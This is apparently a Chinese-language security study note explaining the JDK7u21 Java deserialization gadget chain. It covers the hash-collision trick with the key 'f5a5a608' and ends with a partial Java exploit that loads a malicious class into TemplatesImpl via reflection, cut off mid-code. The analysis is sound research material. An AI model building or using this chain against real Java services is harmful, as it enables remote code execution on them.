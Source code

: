 该函数遍历 this.memberValues 的所有键值对，累加计算一个哈希值。具体步骤如下：

1. 获取 memberValues 的条目迭代器。
2. 遍历过程中，每次取一条键值对。
3. 计算哈希值

memberValues是构造函数传入的var2

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240914154747694.png)

如果传入的var2只有一个Entry，那var1就等于

```java
127 * ((String)var3.getKey()).hashCode() ^ memberValueHashCode(var3.getValue())
```

如果`127 * ((String)var3.getKey()).hashCode()`等于0，任何数异或0等于其本身。上式等于`memberValueHashCode(var3.getValue())`



memberValueHashCode根据不同的数据类型获取hash值

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240914155513192.png)



也就是说，假如`((String)var3.getKey()).hashCode()`等于0时，返回的var1是传入AnnotationInvocationHandler第二个参数map的hashCode(Value)

令该Value等于第一次put的key，也就是templatesClass恶意类对象，其hashCode就相同，返回值相同，能走进for循环触发equals

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240914152637028.png)

一切的问题，都在于怎么使`((String)var3.getKey()).hashCode()`=0

`f5a5a608`hashCode值为0

于是，代码如下：

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;

import javax.xml.transform.Templates;
import java.lang.reflect.*;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.Map;

public class JDK7u21 {
    public static void main(String[] args) throws Exception {
        byte[] code1 = Files.readAllBytes(Paths.get("E:\\codecollect\\RMIServer\\RMIServer\\target\\classes\\org\\example\\RuntimeEvil.class"));
        TemplatesImpl templatesClass = new TemplatesImpl();
        Field[] fields = templatesClass.getClass().getDeclaredFields();
        for (Field field : fields) {
            field.setAccessible(true);
            if (field.getName().equals("_bytecodes")) {
                field.set(templatesClass, new byte[][]{code1});
            } else if (field.getName().equals("_name")) {
                field.set(templatesClass, "godown");
            } else if (field.getName().equals("_tfactory")) {
                field.set(templatesClass, new TransformerFactoryImpl());
            }
        }
        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = clazz.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        HashMap Annovar2map = new HashMap();
```